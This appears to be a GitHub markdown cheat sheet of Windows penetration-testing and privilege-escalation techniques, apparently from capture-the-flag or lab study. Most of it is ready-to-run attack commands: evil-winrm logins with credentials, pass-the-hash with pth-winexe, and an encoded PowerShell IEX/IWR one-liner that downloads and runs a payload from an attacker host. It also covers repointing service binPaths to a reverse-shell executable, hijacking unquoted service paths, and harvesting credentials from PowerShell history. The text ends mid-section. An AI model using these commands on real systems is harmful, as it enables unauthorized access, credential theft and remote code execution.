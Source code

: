 ```
**Bypass Group Policy App Block - Applocker**\
https://github.com/api0cradle/UltimateAppLockerByPassList


**If WinRM (Windows Remote Management) is open, use evil-winrm with creds to gain access**\
```ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.27 -u administrator -p '$PASSWORD'```

**If NTLM hash is accquired -> can perform Pass The Hash attack with path-winexe**
```
pth-winexe -U user%<LM Hash>:<NT Hash> //$RHOST cmd
```

**Encode and run encoded powershell command:**\
Encode: ```echo "IEX( IWR http://10.10.14.x:6969/kaboom.exe -UseBasicParsing)" | iconv -t utf-16le | base64 -w 0``` \
Run encoded command: ```powershell -EncodedCommand $B64_ENCODED_COMMAND```

**To view Access Control List of a directory:**
```Get-ACL $FILEPATH | fl *```

**Can set ACL with:**
```icacls "$PATH" /grant $USER:F /T```

**Service Commands** \
Query the configuration of a service: ```sc.exe qc <service name>``` \
Query the current status of a service: ```sc.exe query <service name>``` \
Modify a configuration option of a service: ```sc.exe config <service name> <option>= <value> ``` \
Start/Stop a service: ```net start/top <service name>``` \

For services running as SYSTEM, check for weak service permissions (ACL) using ```accesschk.exe``` within Sysinternals: ```accesschk /accepteula -uwcqv user <service name> ``` \
SERVICE_STOP, SERVICE_START => allow us to start/stop the service\
SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS => allow us to modify the service config

If we can change the config of a service with SYSTEM priv, we can change the executable of the service to use our custom executable. HOWEVER, we need the permission to start/stop the service. \
Change the config path of a service, point it to the reverse shell payload: ```sc.exe config <service name> binPath= "\"C:\Users\Public\rev.exe\"" ```, set up a listener and restart the service.


**Check for unquoted service path:** \
If an unquoted path service is spotted: ```C:\Program Files\Unquoted Path Service\Common Files\thisservice.exe``` \
Check access on ```C:\```, ```C:\Program Files```, ```C:\Program Files\Unquoted Path Service```, ```C:\Program Files\Unquoted Path Service\Common Files``` with ```accesschk``` \
```accesschk /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"``` \
![image](https://user-images.githubusercontent.com/20218092/125386701-d62f1c80-e3f0-11eb-992b-e0e0ef94ba11.png)

Showing we have RW access to ```C:\Program Files\Unquoted Path Service\``` \
Write a payload called ```Common.exe``` \
When the service is restarted, ```Commom.exe``` will be executed.


**Check for PowerShell history and Transscript**
Credentials or information might be hidden in PowerShell history or PSTranscript files\
Registry query for PowerShell transcritp:```gci -Path 'HKLM:\SOFTWARE\WOW6432Node\Policies\Microsoft\Windows\PowerShell\Transcription'```


**Check for Weak Registry permission:** \
Windows registry contains entries for services and have ACL. If the registry ACL can be configured => privilege escalation vector. \
Verify permission with Get-ACL or icacls or accesschk. \
```
